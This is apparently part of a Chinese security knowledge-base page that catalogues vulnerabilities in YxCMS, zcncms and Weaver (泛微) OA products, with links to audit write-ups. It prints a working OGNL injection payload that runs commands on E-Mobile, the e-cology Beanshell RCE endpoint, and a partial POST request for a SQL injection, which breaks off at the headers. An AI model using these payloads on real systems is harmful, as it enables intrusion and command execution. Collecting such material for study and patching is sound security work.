 **YxCMS 1.4.7 多个漏洞**
- 文章
    - [YxCMS 1.4.7 最新版漏洞分析](https://bbs.ichunqiu.com/thread-45926-1-1.html)

---

## zcncms

**文章**
- [zcncms多个漏洞-Musec](http://musec.lofter.com/post/303379_d39f0c)
- [ZCNCMS审计及漏洞分析](https://www.anquanke.com/post/id/179782)
- [代码审计——zcncms后台SQL注入(一) ](http://0day5.com/archives/4053/)
- [代码审计——zcncms几处漏洞合集(二) ](http://0day5.com/archives/4062/)

---

## 泛微

> 官网 : https://www.weaver.com.cn/

**e-mobile < 6.5 Ognl 表达式注入**
- 文章
    - [关于表达式注入的小记录](https://zhuanlan.zhihu.com/p/26052235)
    - [泛微 E-Mobile Ognl 表达式注入](https://blog.csdn.net/qq_27446553/article/details/68203308)
    - [泛微 E-Mobile Ognl 表达式注入](https://docs.ioin.in/writeup/www.sh0w.top/_index_php_archives_14_/index.html)

- POC | Payload | exp
    ```
    message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
    ```

**e-cology OA Beanshell 组件远程代码执行**
- 文章
    - [[漏洞预警]泛微e-cology OA Beanshell组件远程代码执行分析](https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg)
    - [泛微e-cology OA Beanshell组件远程代码执行漏洞复现](https://mp.weixin.qq.com/s/LpXiLukOKMfMSa8gUYBqNA)

- POC | Payload | exp
    - [jas502n/e-cology](https://github.com/jas502n/e-cology)
    ```
    /weaver/bsh.servlet.BshServlet
    ```

**泛微 OA WorkflowCenterTreeData 接口注入漏洞(限 oracle 数据库)**
- POC | Payload | exp
    ```
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
    Host: ip:port
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 2236
    Connection: close
    Upgrade-Insecure-Requests: 1
